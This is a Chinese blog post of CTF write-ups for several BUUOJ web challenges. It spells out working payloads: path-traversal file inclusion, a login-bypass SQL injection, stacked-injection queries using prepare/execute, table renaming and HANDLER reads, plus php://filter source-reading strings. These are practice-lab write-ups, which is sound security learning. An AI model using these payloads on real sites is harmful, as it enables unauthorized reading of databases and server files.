<!--yml
category: 未分类
date: 2022-04-26 14:45:42
-->

# buuoj部分web题解_Lionel_kai的博客-CSDN博客

> 来源：[https://blog.csdn.net/Lionel_kai/article/details/119724091](https://blog.csdn.net/Lionel_kai/article/details/119724091)

## 1.[HCTF 2018]WarmUp


 没有什么提示，直接f12查看源码：发现有一个source.php的网站，尝试直接打开

 [http://be5d60aa-bc86-4414-8225-92ff9f8e70f8.node4.buuoj.cn:81/source.php](http://be5d60aa-bc86-4414-8225-92ff9f8e70f8.node4.buuoj.cn:81/source.php "http://be5d60aa-bc86-4414-8225-92ff9f8e70f8.node4.buuoj.cn:81/source.php")

打开发现是一段php代码：

 审计代码发现：

```
mb_substr(str1,start,[length][,[str2]]):是在str1从start开始length为长度截取字符串，str2是表示字符编码
mb_strpos(str1,str2):查找str2在str1中出现的位置
```

 代码设置了白名单hint.php和source.php所以首先先去查看一下hint.php文件的内容：

 

 页面回显提示flag不在这里而在另一个文件夹下，所以这里就想先让代码返回true然后执行文件包含，查看flag文件。继续查看代码开始的白名单过滤需要检测有没有hint,source于是初始构造(这里的hint和source选用谁都可以)：

```
?file=hint.php../../../../../ffffllllaaaagggg
```

 发现显示的是“you can't see it”；那是因为后面检测时会进行一个字符串截取的简单的过滤，需要添加一个?于是构造：

```
?file=hint.php?../../../../../ffffllllaaaagggg
```

 这里的../../没有个数要求，但是要适量多一点返回到根目录下去。

 

然后就可以得到flag。

## 2.[极客大挑战 2019]EasySQL


看到登录框，首先尝试万能密码： 用户名：1' or 1=1 ;#，密码随便写

发现flag直接就出来了：

## 3.[极客大挑战 2019]Havefun

### 

没什么提示，叫我们lu猫，直接查看源码： 发现存在这样一段注释


 于是构造[http://9ddd1b58-1374-4cea-860c-52787879a4b9.node4.buuoj.cn:81/?cat=dog直接出flag：](http://9ddd1b58-1374-4cea-860c-52787879a4b9.node4.buuoj.cn:81/?cat=dog "http://9ddd1b58-1374-4cea-860c-52787879a4b9.node4.buuoj.cn:81/?cat=dog直接出flag：")

## 4.[强网杯 2019]随便注

使用常规注入语句发现：对我们的一些查询语句进行了正则过滤



 发现对我们的select进行了过滤，然后尝试性的绕过以及基本的一些注入，笑死，根本select不到。于是去看wp。。。发现用的时堆叠查询。一次执行多个查询语句。

 

 发现有两张表，于是去查看这两张表的内容：方法一1';desc `1919810931114514`;#

 方法二：1';show columns from `1919810931114514`;#一样可以得到相同的结果

因为select被过滤掉了，所以我们采取预编译的方法(看wp才知道的vegetable dog)

```
set用于设置变量名和值
prepare用于预备一个语句，并赋予名称，以后可以引用该语句
execute执行语句
deallocate prepare用来释放掉预处理的语句
```

```
1';set @sql = CONCAT('se','lect * from `1919810931114514`;');prepare kkk from @sql;EXECUTE kkk;
相当于
1';
set @sql = CONCAT('se','lect * from `1919810931114514`;');
prepare kkk from @sql;
EXECUTE kkk;
```

 然而：又过滤了一下下

 

 但是strstr可以用大小写绕过于是换一下大小写okk



 还有一种题解：更改表名列名，我们将表1919810931114514名字改为words，flag列名字改为id，那么就能得到flag的内容了。

```
修改表名(将表名user改为users)
alter table user rename to users;

修改列名(将字段名username改为name)
alter table users change uesrname name varchar(30);
```

```
1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#

拆分开来如下
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);
#
```

 然后使用`1' or 1=1 #`即可查询出flag.

源码很明显的地方，使用multi_query()执行一条或多条sql语句，然后将结果全部输出，因此可以判断是堆叠注入。

## 5.[ACTF2020 新生赛]Include



仔细观察发现网页文件就是flag.php,猜测flag就在该目录下，于是想到php伪协议进行文件读取。

```
http://d9953226-2cf0-4a6c-8b63-2a2c07bd7a65.node4.buuoj.cn:81/?file=php://filter/read=convert.base64-encode/resource=./flag.php
```



拿去进行base64解码：

 得到flag.

## 6.[SUCTF 2019]EasySQL

[BUUCTF [SUCTF 2019] EasySQL_Senimo-CSDN博客](https://blog.csdn.net/weixin_44037296/article/details/105190639?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-2.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-2.channel_param "BUUCTF [SUCTF 2019] EasySQL_Senimo-CSDN博客")

## 7.[极客大挑战 2019]Secret File


 先去查看源码：发现有一个超链接，点进去



 


  进行了一次页面跳转就结束了，根据提示，可能在跳转的时候secret以及出现了，于是去抓包

 发现多了一个302跳转的action.php于是查看响应

 发现有一个secr3t.php的文件，尝试打开



 发现是一段php代码，只需绕过if打开flag.php即可,直接先构造一个?file=flag.php(虽然我知道不可能这么简单.....)果然....！



 猜测在注释里面，于是利用伪协议打开文件(这里有部分伪协议关键词被过滤了，于是可以用没有被过滤的关键字：?file=php://filter/read=convert.base64-encode/resource=./flag.php



 发现又是一段base64，拿去解码：拿到flag



# 8.[GYCTF2020]Blacklist



 发现过滤了很多函数，这里采用堆叠注入的方式

```
show databases;   获取数据库名
show tables;  获取表名
show columns from `table_name`; 获取列名
```

1';show tables;#



 1';show columns from `FlagHere`;#

 

 因为预编译啥的都被禁用了，这里贴贴大佬payload

```
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```

 

